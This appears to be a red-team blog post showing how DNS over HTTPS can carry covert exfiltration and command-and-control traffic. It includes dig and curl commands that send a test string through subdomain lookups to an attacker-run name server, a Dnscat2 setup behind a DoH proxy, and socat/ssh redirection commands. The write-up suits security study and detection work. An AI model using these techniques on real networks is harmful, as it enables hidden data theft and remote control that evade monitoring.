





_**Aug 26, 2019**_

## Exfiltrate Like a Pro: Using DNS over HTTPS as a C2 Channel

[DNS over HTTPS](https://en.wikipedia.org/wiki/DNS_over_HTTPS) is cool. It aims to increase user privacy and security by moving [Domain Name System](https://en.wikipedia.org/wiki/Domain_Name_System) resolution from the old, unauthenticated UDP protocol to [HTTPS](https://en.wikipedia.org/wiki/HTTPS) and [HTTP/2](https://en.wikipedia.org/wiki/HTTP/2) 😇.. but are you aware that it can be used as a C2 communication channel? 😼



## Domain Name System

The [Domain Name System](https://en.wikipedia.org/wiki/Domain_Name_System) is commonly used to translate a string representing a domain name to one or more IPv4/IPv6 addresses. It uses port UDP/53 for communication and there are different kinds of Resource Records that you can request:

|  Type |  Name  |  Data |
|---|---|---|
| A  | IPv4 Address Mapping  |  hostname and its corresponding IPv4 address |
| AAAA | IPv6 Address Mapping  | hostname and its corresponding IPv6 address  |
| CNAME  | Canonical Name  |  alias to another hostname |
| MX  | Mail Exchanger  | SMTP email server for the domain  |
| NS  | Name Server  |  Authoritative Name Server for a DNS Zone  |
| PTR  | Reverse Lookup Pointer  |  reverse mapping between IPs and hostnames |
| CERT  | Certificate Record  |  encryption certificates, such as PKIX, SPKI, PGP, etc |
| SRV  | Service Location  |  service locations for other protocols |
| TXT  | Text Record  | arbitrary text and SPF, DKIM, DMARC, etc   |
| SOA  | Start of Authority  | Authoritative Name Server for the current DNS zone  |

For example, we can use the following command to resolve the CNAME records of `iwantmore.pizza`:

```text
root@kali:~$ dig iwantmore.pizza CNAME

; <<>> DiG 9.11.5-1-Debian <<>> iwantmore.pizza CNAME
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 5731
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1452
;; QUESTION SECTION:
;iwantmore.pizza.		IN	CNAME

;; ANSWER SECTION:
iwantmore.pizza.	1799	IN	CNAME	phra.github.io.

;; Query time: 10 msec
;; SERVER: 1.1.1.1#53(1.1.1.1)
;; WHEN: lun ago 26 10:18:34 CEST 2019
;; MSG SIZE  rcvd: 72
```

For more information about the DNS protocol, you can check these articles:

1. [Namecheap - What is DNS?](https://www.namecheap.com/dns/what-is-dns-domain-name-system-definition/)
2. [Cloudflare - What is DNS?](https://www.cloudflare.com/learning/dns/what-is-dns/)

## DNS as C2 Channel

If we set up a NS record for `exfil.iwantmore.pizza` pointing to an IP address that we control and we try to resolve a subdomain like this:

```bash
root@kali:~$ dig 1234567890.exfil.iwantmore.pizza
```

we will receive the DNS request on our Authoritative Name Server delegated for the `exfil.` DNS zone:

```text
root@kali:~$ nc -lvvup 53
listening on [any] 53 ...
<REDACTED>: inverse host lookup failed: Host name lookup failure
connect to [<REDACTED>] from (UNKNOWN) [<REDACTED>] 60598
#�
1234567890exfiliwantmorepizza)�
```

As we can see, we just exfiltrated the string `1234567890` via DNS to our server using port UDP/53.

If you want to tunnel a full-duplex stream instead of exfiltrating a single string, you will need to define your own TCP-like layer on top of the UDP+DNS protocol, in order to manage the following problems:

1. Reordering of received packets

2. Deduplication of received packets

3. Retransmission of lost packets

You can find a comprehensive open source [protocol specification](https://github.com/iagox86/dnscat2/blob/master/doc/protocol.md) at the Dnscat2 repository.

## DNS over HTTPS

We can try it out by resolving `iwantmore.pizza` CNAME records and issuing a manual request to any DoH public servers using the [official online tool](https://dns.google/query?name=iwantmore.pizza) or locally with cURL, as shown below.

- Cloudflare:

```bash
curl -H 'Accept: application/dns-json' \
     'https://1.1.1.1/dns-query?name=iwantmore.pizza&type=CNAME'
```

- Google:

```bash
curl -H 'Accept: application/dns-json' \
     -H 'Host: dns.google' \
     'https://8.8.8.8/resolve?name=iwantmore.pizza&type=CNAME'
```

- Quad9:

```bash
curl -H 'accept: application/dns-json' \
     'https://9.9.9.9:5053/dns-query?name=iwantmore.pizza&type=CNAME'
```

In all cases, we will receive a JSON response similar to this one:

```json
{
    "Status": 0,
    "TC": false,
    "RD": true,
    "RA": true,
    "AD": false,
    "CD": false,
    "Question": [{
        "name": "iwantmore.pizza.",
        "type": 5
    }],
    "Answer": [{
        "name": "iwantmore.pizza.",
        "type": 5,
        "TTL": 1794,
        "data": "phra.github.io."
    }]
}
```

## DNS over HTTPS as C2 Channel

To replicate the previous example and exfiltrate the `1234567890` string we simply issue the following command:

```bash
curl -H 'Accept: application/dns-json' \
     -H 'Host: dns.google' \
     'https://8.8.8.8/resolve?name=1234567890.exfil.iwantmore.pizza&type=A'
```

and we end up with the same result on the server:

```text
root@kali:~$ nc -lvvup 53
listening on [any] 53 ...
<REDACTED>: inverse host lookup failed: Host name lookup failure
connect to [<REDACTED>] from (UNKNOWN) [<REDACTED>] 61832
#�
1234567890exfiliwantmorepizza)�
```

We just have exfiltrated the `1234567890` string using DNS over HTTPS, _i.e._ via a fully encrypted and authenticated HTTP/2 connection to some public, well-known DoH proxy.

## Dnscat2 over DoH

To quickly confirm that DNS over HTTPS can be reliably used as a C2 channel, we can configure a DoH proxy and connect the Dnscat2 client to it. In this way we will use the original Dnscat2 client and the proxy will translate the DNS requests to DoH for us. If everything works, only HTTPS traffic to some DoH servers will be seen on the wire. Of course, in a real scenario, the agent/implant itself should contact the public DoH servers directly.

We will choose as our DoH proxy [Technitium DNS Server](https://github.com/TechnitiumSoftware/DnsServer), an open source .NET Core implementation.

On our test machine we will install the .NET Runtime

```bash
wget -qO- https://packages.microsoft.com/keys/microsoft.asc | gpg --dearmor > /etc/apt/trusted.gpg.d/microsoft.asc.gpg
wget -qO /etc/apt/sources.list.d/microsoft-prod.list https://packages.microsoft.com/config/debian/9/prod.list

apt install apt-transport-https
apt update
apt install install aspnetcore-runtime-2.2
```

and execute the Technitium DNS Server:

```bash
wget https://download.technitium.com/dns/DnsServerPortable.tar.gz
tar xvf DnsServerPortable.tar.gz
dotnet DnsServerApp.dll
```

We can access the dashboard on [http://127.0.0.1:5380](http://127.0.0.1:5380).
Let's configure our DNS proxy to forward all received requests to an upstream DoH server, in this case we are choosing the Google one (i.e. `8.8.8.8`, `8.8.4.4`, ...)


Now that everything is set up, we can confirm that it is working as expected: let's run the Dnscat2 server on our Authoritative Name Server and start the client on our test machine after changing `/etc/resolv.conf` to use `127.0.0.1` as DNS server, so that our traffic will pass through the DoH proxy.



**🤖 Yay, it works! 🤖**

## Results

We successfully set up a **reverse DNS over HTTPS C2 channel** with **HTTP/2**, **High Reputation Domain Fronting** and **A-grade TLS** support!

- [HTTP/2](https://http2.pro/check?url=https%3A//dns.google/)  



- [High Reputation Domain Fronting](https://www.talosintelligence.com/reputation_center/lookup?search=8.8.8.8)  



- [A-grade TLS](https://www.ssllabs.com/ssltest/analyze.html?d=dns.google&latest)  



At the time of writing, no open source C2 agent/implant implement this exfiltration technique yet, but, as shown, it could be an effective and hard to detect method to indirectly communicate with a C2 server. It will be a neat feature to have and I am curious to see if it's going to be implemented as a communication option for some major products out there.

## Bonus Point: Redirect DNS Traffic to your local VM

If you want to forward the DNS traffic from the Authoritative Name Server to your local VM, you can use a mix of SSH and Socat commands, like shown in this [@rvrsh3ll](https://twitter.com/424f424f)'s [article](https://medium.com/rvrsh3ll/redirecting-cobalt-strike-dns-beacons-e3dcdb5a8b9b):

- On the Authoritative Name Server:

```bash
# redirect all UDP traffic to a local TCP port
socat udp4-listen:53,reuseaddr,fork tcp:localhost:53535
```

- On the local VM:

```bash
# forward the TCP port to the VM
ssh <AUTHORITATIVE_NAME_SERVER> -R 53535:localhost:53535
# redirect all TCP traffic to a local UDP port
socat tcp4-listen:53535,reuseaddr,fork UDP:localhost:53
```

## References

1. [Dnscat2](https://github.com/iagox86/dnscat2)
2. [Technitium Dns Server](https://github.com/TechnitiumSoftware/DnsServer)

[back](../)
